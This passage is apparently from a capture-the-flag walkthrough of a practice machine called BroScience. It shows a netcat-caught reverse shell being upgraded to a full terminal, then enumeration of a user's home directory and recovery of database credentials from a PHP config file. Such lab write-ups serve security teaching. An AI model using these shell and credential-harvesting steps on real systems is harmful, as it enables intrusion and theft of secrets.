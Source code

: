 

    www-data@broscience:/var/www.md$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    www-data@broscience:/var/www.md$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ;fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@broscience:/var/www.md$ 



## Shell as bill

### Enumeration

#### Home Directory

There's one user with a home directory on the box, bill, and it has
`user.txt`, but I can't read it yet:



    www-data@broscience:/var/www.md$ ls /home/
    bill
    www-data@broscience:/var/www.md$ ls /home/bill/
    Certs    Documents  Music     Public     Videos
    Desktop  Downloads  Pictures  Templates  user.txt
    www-data@broscience:/var/www.md$ cat /home/bill/user.txt 
    cat: /home/bill/user.txt: Permission denied



#### Database

I already had access to most of the web files. But now I can connect to
the database with the creds from `db_connect.php`:



    <?php
    $db_host = "localhost";
    $db_port = "5432";
    $db_name = "broscience";
    $db_user = "dbuser";
    $db_pass = "RangeOfMotion%777";
    $db_salt = "NaCl";

    $db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

    if (!$db_conn) {
        die("<b>Error</b>: Unable to connect to database");
    }
    ?>
